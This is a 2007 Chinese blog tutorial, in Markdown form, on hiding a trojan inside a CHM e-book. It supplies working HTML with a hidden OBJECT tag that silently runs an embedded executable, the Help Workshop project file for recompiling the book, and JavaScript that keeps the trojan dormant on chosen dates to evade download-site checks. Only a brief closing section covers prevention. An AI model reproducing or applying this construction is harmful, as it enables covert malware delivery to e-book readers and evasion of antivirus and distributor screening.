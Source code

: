 ```yaml
---
title: 电子书木马及防范方法
description: 　　电子书木马(以下所指的电子书均指CHM格式的电子书)？其实这种方式的木马传播方法很早就有出现，但好象是多以网页木马的形式存在的，也就是把所谓的一个网页木马加入电子书里，这种效果和一般的网页木马的效果一样受到漏洞范围的限制，因此一直没引起人们的太大关注，也许大家觉得这样还不如直接的网页木马来得方便，其实不然，因为电子书相对与网页而言有许多“优点”，当然这里所谓的“优点”是指在传播木马方面而言的！　　在正式打造我们的电子书木马前，我们先分析一下它的“优点”吧！......
date: 2007-09-07 12:00:46
category: 技术文章
tags: ['安全', '木马', '技术类']
post_id: 152
alias: CHMmuma
ViewNums: 3897
---
```


电子书木马(以下所指的电子书均指CHM格式的电子书)？其实这种方式的木马传播方法很早就有出现，但好象是多以网页木马的形式存在的，也就是把所谓的一个网页木马加入电子书里，这种效果和一般的网页木马的效果一样受到漏洞范围的限制，因此一直没引起人们的太大关注，也许大家觉得这样还不如直接的网页木马来得方便，其实不然，因为电子书相对与网页而言有许多“优点”，当然这里所谓的“优点”是指在传播木马方面而言的！

在正式打造我们的电子书木马前，我们先分析一下它的“优点”吧！

一：因为电子书一般是在本地电脑域打开的，因此它所获得的权限也是本地电脑域的权限，所以比起网页木马的Internet域来，让木马获得执行的机会要简单的多,“不必使用漏洞”就可以执行，从而也就不会被杀毒软件查杀，如果你的木马程序够好的话！也不必担心别人打了漏洞补丁！(Windows 2003除外，原因下面会说到);

二：现在的网页木马由于影响力太大，一般的人上网都会小心三分提防的，且它依赖与漏洞，所以生存的空间正在逐渐缩小，与此相反的是电子书的火爆下载，使得电子书木马的传播能力以及范围大大加强！

三：由于木马程序嵌入电子书里，一般的杀毒软件无法对其中存在的木马病毒等破坏性程序进行检查和清除，而且如果对这类电子书进行检查，杀毒所需时间也会过长！

四：还有最后一点就是，网页木马一般都要自己辛辛苦苦的去传播，并且站点随时可能被关闭，而咱的电子书却可以让许多大的下载站点为咱做点贡献！获得长久时间的传播，当然前提是这本电子书够精彩！

好啦！下面就让我带大家一步步打造个超级隐蔽的电子书木马吧！

首先准备好工具如下：

１：Microsoft HTML Help Workshop V1.32

　　电子书制作工具，由微软公司出的编程配套软件，可以帮助您建立 HTML 格式的帮助文件！当然也可以用Quick CHM等其他CHM格式的电子书制作工具；

２：超级木马一只（也就是一个你觉得最好的木马程序一个而已，相信大家比我熟悉），本文演示用“Window 按钮突破专家”这个小软件”；

３：现在最火爆的电子书籍（大哥们，不要拿咱们菜鸟的电脑教材开刀呀！）若干，当然如果你有能力自己做我也不反对，本文演示用Windows 2000的帮助文档WINNTHelp下的access.chm开刀！

准备好了吗？开始制作吧！

第一步：打开access.chm，在右侧的空白处，点击右键菜单，选择属性，出现对话框：我们可以知道这个电子文档的默认主页是：accessibility\_overview.htm，标题栏文字是：辅助选项

第二步：制作一个可以让木马运行并且同时可以自动转到原电子书的默认主页的网页icyfox.htm，代码如下：

| <HTML> <HEAD> <meta http-equiv="refresh" content="3;url='accessibility\_overview.htm'"> </HEAD> <BODY> <OBJECT Width=0 Height=0 style="display:none;" TYPE="application/x-oleobject" CODEBASE="Window 按钮突破专家.exe"> </OBJECT> </BODY> </HTML> |
| --- |

说明：把其中的accessibility\_overview.htm改为你用的电子书的默认主页名，把“Window 按钮突破专家.exe”改为你的木马程序名！

另外，如果你的木马程序体积比较大，请相应的把上面的转向时间３改的值大一点！

在Windows 2003中默认在本地电脑域中好像并不允许OBJECT标签运行本地程序（我自己没装Windows 2003），所以不适合在Win2003使用！当然我们可以在代码中加入判断是否是Windows 2003的语句，来隐藏自己的木马！用navigator.appVersion属性判断!

第三步：打开HTML Help Workshop，选择File菜单下的Decompile...项，对access.chm进行反编译。

编译后的目录“G:CHM木马”中可以看到access.hhc（对应帮助文档左侧的“目录”项）和access.hhk（对应帮助文档左侧的“索引”项）；

第四步：建立一个新的带有木马的电子书；把“Window 按钮突破专家.exe”，也就是你的木马程序复制到反编译后的目录“G:CHM木马”中，并在此目录下建立一个icyfox.hhp的文件（用记事本即可！），内容如下（注意;号后面的注释不要写上）：

| [OPTIONS] Compatibility=1.1 Or later Compiled file=access.chm ;把access.chm改为你要生成的电子书名 Default Window=Main Language=0x804 中文(中国)  [WINDOWS] Main="辅助选项","access.hhc","access.hhk","icyfox.htm",,,,,,0x420,150,0x104E,,0x0,0x0,,,,,0 ;把上面的"辅助选项"改为你第一步时得到的标题栏文字，"access.hhc"及"access.hhk"分别改为你第三步得到的文件名 [FILES] icyfox.htm |
| --- |

Window 按钮突破专家.exe ;把它改为你要嵌入电子书的木马程序名

最后，用HTML Help Workshop打开icyfox.hhp，点击左侧最下面的编译按钮，稍等一会就可以在“G:CHM木马”目录中发现已经编译好的带有木马的电子书access.chm，打开看看！

加入电子书中的程序是不是运行啦？！还和原来的电子书满相似的吧！当然由于我直接用的上面的icyfox.hhp直接来编译出来的，并没有对电子书进行更细致的调整，所以和原来的相比有点差异，当然如果你愿意，做出和原电子书一样的界面也可以的！^:^

当然我直接写出icyfox.hhp这个文件的内容，也决不是为了多赚稿费，一方面免去制作电子书的过程说明，更重要的是因为它对你做一个可以“传染”其他电子书的木马是有作用的，不过鉴于这样做已经具有病毒的传染特性，其危害性过大，所以请不要找我要方法和代码，也请自己想出方法写出程序的各位大哥，不要进行大规模的散发！

看到这里你也许会质问我所说的“优点”中的第四条根本没法实现，因为当“下载站点”的站长打开时同样会运行木马，所以他就不会在为你“免费服务”啦，咋办？

最会，就让我和大家一起解决这点小问题，如何逃过那些“下载站点”的木马检测，而让他们不知不觉的帮助你传播电子书木马！

分析一下，那些“下载站点”一般不会把你提供的电子书进行反编译吧？！所以只要在他们打开你的电子书查看时，不运行你的木马程序，这样他们就会放心的把它放到自己的站点上供其它人下载！我的方法是在icyfox.htm中加入用于判断时间的javascript代码，当大于某日期时，再动态写入运行木马的HTML代码，从而逃过检测，修改后的icyfox.htm如下:

| <HTML> <HEAD> <meta http-equiv="refresh" content="3;url='accessibility\_overview.htm'"> </HEAD> <BODY> <SCRIPT LANGUAGE="javascript"> //以下是在2004年4月11日至2004年4月18日之内不运行木马 var ris = 11; //起始日 var rie = 18; //结束日 var yue = 4; //月 var nian = 2004;//年  var riqi = new Date(); var d = riqi.getDate(); var m = riqi.getMonth()+1; var y = riqi.getYear();  WIE=navigator.appVersion;  //if(WIE.indexOf("在此加入代表Win2003的字符串")==-1){执行下面的代码}  //用这句可以防止在Win2003中运行木马 //我因为没有Win2003所以不知道版本该如何写，请装Win2003的兄弟把他改好！  if(y!=nian||m!=yue||d<ris||d>rie) { document.write('<OBJECT Width=0 Height=0 style="display:none;" TYPE="application/x-oleobject"'); document.write(' CODEBASE="Window 按钮突破专家.exe">'); document.write('</OBJECT>'); } </SCRIPT> </BODY> </HTML> |
| --- |

想想，你说这个电子书木马的生存传播效果如何？！

最后，我说一下对这种电子书木马的预防措施：

1.老生常谈，下载电子书在一些比较正规的大的站点进行，因为这里的书籍一般都是他们自己做的；

2.积极自我防护，修改本地安全属性，使其无法在本地电脑域环境中运行木马程序，相应的注册表键值为：
　　HKEY\_CURRENT\_USER Software Microsoft Windows CurrentVersion Internet Settings ones  下的1004项的值由原来的0改为十六进制的3，如果你想详细修改本地电脑域的安全属性，可以把此同分支下的Flags项的值由原来的十六进制２１改为０，再打开ＩＥ浏览器“Internet 选项...”中的的“安全”标签，是不是多了一个“我的电脑”图标，仔细改改它的安全级别吧

